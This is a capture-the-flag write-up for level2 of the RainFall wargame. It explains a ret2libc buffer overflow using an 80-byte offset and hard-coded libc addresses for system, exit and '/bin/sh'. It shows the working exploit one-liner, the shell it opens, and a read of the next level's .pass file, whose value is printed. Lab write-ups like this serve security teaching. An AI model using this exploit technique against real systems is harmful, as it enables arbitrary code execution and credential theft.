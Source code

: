 # level2

In this level, we have to make a ret2libc, it consist of overwritting the eip address to execute sh

We will inject some instructions after the overflow (80)

```bash
python -c "print('a' * 80 + '<injections>')
```

Let's see the detailled explainations of the [gdb part](gdbwriteup.md) to have more information of the address that we will inject


|  function  |  address   |
|   -------  |  --------  |
|  ret       | 0x0804854b |
|  system    | 0xb7e6b060 |
|  exit      | 0xb7e5ebe0 |
|  /bin/sh   | 0xb7f8cc58 |

We will trigger our ret, use the system call followed by an exit and finally we will inject `/bin/sh` to our eip

```bash
level2@RainFall:~$ (python -c "print('a' * 80 + '\x4b\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')";cat) | ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaKaaaaaaaaaaaaK`�����X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02